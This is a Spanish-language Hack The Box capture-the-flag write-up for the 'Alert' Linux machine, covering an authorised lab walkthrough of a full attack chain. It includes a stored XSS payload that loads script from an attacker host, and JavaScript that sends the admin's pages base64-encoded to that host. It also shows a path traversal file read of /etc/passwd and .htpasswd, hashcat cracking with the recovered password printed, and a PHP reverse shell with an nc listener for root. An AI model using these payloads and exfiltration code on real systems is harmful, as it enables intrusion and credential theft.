# HTB Write-Up - Alert

**Dificultad:** Easy  
**OS:** Linux  
**IP:** 10.129.231.188  
**Fecha:** 16 de marzo de 2026  
**Autor:** Branyel Pérez (@estifenso)

Alert es una máquina Linux sencilla centrada en una aplicación para subir, visualizar y compartir Markdown. La ruta fue bastante directa: primero salió un XSS almacenado, después una lectura arbitraria de archivos en contexto autenticado, luego unas credenciales reutilizables por SSH y, al final, una escalada apoyada en un proceso PHP con permisos demasiado amplios.

## Tabla de contenido

1. [Reconocimiento](#reconocimiento)
2. [Enumeración](#enumeración)
3. [Explotación](#explotación)
4. [Exfiltración y credenciales](#exfiltración-y-credenciales)
5. [Acceso inicial](#acceso-inicial)
6. [Escalada de privilegios](#escalada-de-privilegios)
7. [Flags](#flags)
8. [Resumen](#resumen)

## Reconocimiento

### Conectividad

Primero validé que la máquina estaba activa con ICMP. El TTL observado fue 63, un valor típico cuando el objetivo corre Linux.



### Escaneo TCP

Hice un escaneo completo de puertos TCP para identificar servicios expuestos.

```bash
nmap -p- --open -sSV -Pn -v -n 10.129.231.188 -oN tcp-scan.txt
```





Solo aparecieron dos servicios abiertos:

| Puerto | Servicio | Observación |
|--------|----------|-------------|
| 22/tcp  | SSH      | OpenSSH en Ubuntu |
| 80/tcp  | HTTP     | Apache con una app PHP |

El título del sitio apuntaba a un visor de Markdown.

## Enumeración

### Hostname

El dominio `alert.htb` no resolvía al principio, así que lo añadí a `/etc/hosts` para trabajar más cómodo con el sitio.

```bash
echo "10.129.231.188 alert.htb" | sudo tee -a /etc/hosts
```




### Fingerprinting

Después corrí una enumeración más dirigida de los puertos abiertos para confirmar versiones y comportamiento HTTP:

```bash
nmap -p22,80 -sCV 10.129.231.188 -oN vul_scan.txt
```

Con Wappalyzer y WhatWeb confirmé stack Apache + PHP en Ubuntu, y una redirección hacia `index.php?page=alert`.

En ese punto busqué la versión de Apache 2.4.41 en Launchpad/Google para confirmar a qué release de Ubuntu correspondía.

La razón fue simple: quería validar si el host estaba alineado con Ubuntu 20.04 (Focal) y no asumirlo solo por banner. Ese dato ayuda a orientar mejor la post-explotación (rutas por defecto, versiones de paquetes, comportamiento de servicios y posibles vectores conocidos para esa familia).



Ese bloque deja la cadena de validación de huella: tecnología detectada, confirmación con `nmap -sCV`, y correlación de versión para perfilar el sistema operativo.








### Revisión de la web

La página principal era un Markdown Viewer con opción para subir archivos `.md`. También había secciones de contacto, información y donaciones.



La sección About Us dejaba claro que los mensajes podían ser revisados por un administrador. Ese detalle fue clave porque abría una ruta clara para entregar un payload vía enlace compartido y ejecutarlo en contexto autenticado.

En esta ruta no necesité fuerza bruta de directorios (gobuster/ffuf), porque el vector principal ya estaba expuesto en la lógica funcional de la aplicación (upload + share de Markdown + revisión por admin).

## Explotación

### Probando el render de Markdown

Creé un archivo de prueba y confirmé que el contenido subido se renderizaba en el navegador sin demasiadas restricciones.









Con esto confirmé dos cosas: el upload de `.md` funcionaba sin fricción y el render no estaba sanitizando lo suficiente.

### XSS almacenado

Después probé con una carga mínima de JavaScript y el navegador la ejecutó correctamente, así que confirmé el XSS almacenado.

```html
<script>
  alert(0);
</script>
```





El popup validó ejecución de JavaScript en el renderizador, así que ya tenía XSS usable.

### Abuso del share link

En lugar de depender de la vista normal, preparé un archivo Markdown con un `script src` externo. La idea era hacer que el administrador cargara mi JavaScript al abrir el contenido compartido.

```html
<script src="http://10.10.15.32/wachao.js"></script>
```

Luego generé el enlace de compartición y lo envié a través del formulario de contacto, que era el canal más lógico para que el admin lo abriera.

En el primer intento el servidor atacante recibió el request de `wachao.js` pero devolvió 404, señal de que la carga sí se estaba intentando ejecutar y solo faltaba corregir el recurso.













Aquí confirmé dos puntos: el enlace compartido existía, pero abierto fuera de sesión daba `Invalid file`; por eso tenía que lograr que el admin autenticado lo visitara.



El formulario de contacto fue el canal de entrega. Envié el link compartido para forzar la carga de mi JS en la sesión del administrador.



## Exfiltración y credenciales

### Primer objetivo: mensajes

Mi script empezó consultando la página de mensajes del administrador y exfiltrando el HTML a mi servidor local en base64.

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/index.php?page=messages', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.15.32/?b64=' + btoa(req.responseText), false);
exfil.send();
```

El primer script tenía un typo (`arlet.htb`), lo corregí y repetí el envío.

Al decodificar la respuesta encontré una referencia a `messages.php?file=...`, lo que ya sugería lectura arbitraria de archivos.



Primero falló por typo de dominio; al corregirlo, la exfiltración empezó a devolver contenido consistente.









Con ese HTML pude confirmar que el parámetro `file` se usaba en `messages.php`, así que el siguiente paso fue repetir el envío al admin con payloads más dirigidos.



El segundo hit ya devolvió contenido útil de la zona de mensajes en contexto autenticado.







Después de ajustar el payload, reenvié el enlace para que el admin ejecutara la lectura de `/etc/passwd` desde su sesión.



Este resultado fue la evidencia de que el archivo se estaba leyendo y exfiltrando correctamente.



Intenté el LFI directo desde sesión no autenticada y no devolvía contenido útil; en contexto admin sí funcionó, por eso el XSS era el puente necesario.

### LFI en contexto autenticado

Probé a leer `/etc/passwd` a través del parámetro `file` y la idea funcionó desde el navegador del admin, no desde una sesión anónima. Con eso confirmé que la vulnerabilidad solo era útil en ese contexto.

```javascript
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../../etc/passwd', false);
```





Para extraer usuarios reales potencialmente reutilizables filtré por shell válida:

```bash
echo "<b64>" | base64 -d | grep bash
```

Ahí aparecieron `root`, `albert` y `david`.

A partir de ahí empecé a sacar archivos sensibles:

- `/etc/passwd`
- `/etc/apache2/sites-available/000-default.conf`
- `/var/www/statistics.alert.htb/.htpasswd`

### VirtualHost adicional

El archivo de Apache me reveló un segundo subdominio, `statistics.alert.htb`, protegido por HTTP Basic Auth. El `.htpasswd` expuesto me dio el hash del usuario `albert`.

Con eso el flujo quedó claro: leer config de Apache -> identificar virtualhost protegido -> ubicar ruta exacta de `.htpasswd` -> exfiltrar hash.



Aquí la intención fue pivotar de archivos del sistema a configuración de servicio para descubrir superficies internas no expuestas en la página principal.





Con ese hallazgo añadí `statistics.alert.htb` al hosts y validé que el acceso exigía Basic Auth.







Esa exfiltración devolvió el hash de `albert` en `.htpasswd`.



### Crackeo del hash

El hash era un `$apr1$` de Apache y se rompió rápido con Hashcat y `rockyou.txt`.

```bash
hashcat hash.txt /usr/share/wordlists/rockyou.txt --user
```

La contraseña resultó ser `manchesterunited` (hash Apache `$apr1$`, mode 1600 en Hashcat).

Con ese resultado, las credenciales para el portal quedaron como `albert:manchesterunited`.


Esta evidencia cierra el puente entre hash exfiltrado y credencial usable en servicios reales del objetivo.



Probé esas credenciales en `statistics.alert.htb` y el login fue exitoso.





## Acceso inicial

Con esas credenciales pude entrar por SSH como `albert`.

```bash
ssh albert@10.129.231.188
```

Una vez dentro obtuve la flag de usuario sin mayores complicaciones.

También confirmé que las credenciales servían para el panel `statistics.alert.htb` (Basic Auth) y para SSH, una reutilización bastante común en entornos mal segmentados.





## Escalada de privilegios

### Enumeración local

Revisando grupos y permisos, vi que `albert` pertenecía a `management` y que había rutas de un monitor web accesibles para ese grupo.

```bash
id
find / -group management 2>/dev/null
```



También apareció un servicio escuchando en `127.0.0.1:8080`, que correspondía a una aplicación PHP de monitoreo interna.

```bash
ss -nltp
curl localhost:8080
```



### Hallazgo clave

El punto crítico fue que un proceso root basado en `inotifywait` ejecutaba PHP vinculado al monitor, mientras el directorio `monitors` era escribible. Ese cruce de privilegios permitió inyectar un payload y forzar ejecución con permisos elevados.

Primero validé que el monitor interno respondía y qué mostraba.



Después levanté túnel SSH para exponer el 8080 localmente.



Con el túnel activo, confirmé acceso web al monitor desde el navegador.



En paralelo revisé procesos para confirmar ejecución privilegiada asociada al monitor.



Y validé permisos del árbol `/opt/website-monitor`, especialmente el comportamiento sobre rutas escribibles.



### Shell como root

Primero generé el payload de reverse shell PHP y luego lo adapté al objetivo.



Después lo guardé como `revshell.php` dentro de `monitors/`, que era una ruta escribible desde mi contexto.



Con listener activo, abrí el archivo desde el monitor interno para disparar la ejecución.

```bash
sudo nc -lvnp 442
```





El resultado final fue `uid=0(root)`, confirmando ejecución de código como root.

## Flags

### User flag

La primera flag fue la de `albert`, obtenida tras el acceso por SSH.


### Root flag

Con la shell elevada, simplemente leí `root.txt`.



## Resumen

1. Descubrí un visor de Markdown con subida de archivos.
2. Exploté un XSS almacenado para ejecutar JavaScript en el navegador del admin.
3. Usé ese contexto para acceder a una función vulnerable a lectura arbitraria de archivos.
4. Exfiltré archivos sensibles y encontré el hash de `albert`.
5. Crackeé la contraseña y entré por SSH.
6. Enumeré el sistema, encontré un proceso PHP demasiado permisivo y lo usé para ejecutar código como root.

## Conclusión

Alert fue una buena máquina y me gustó porque me dejó un aprendizaje nuevo en cada etapa.

*Write-up by Branyel Pérez | HTB Profile: 1989444 | @estifenso*
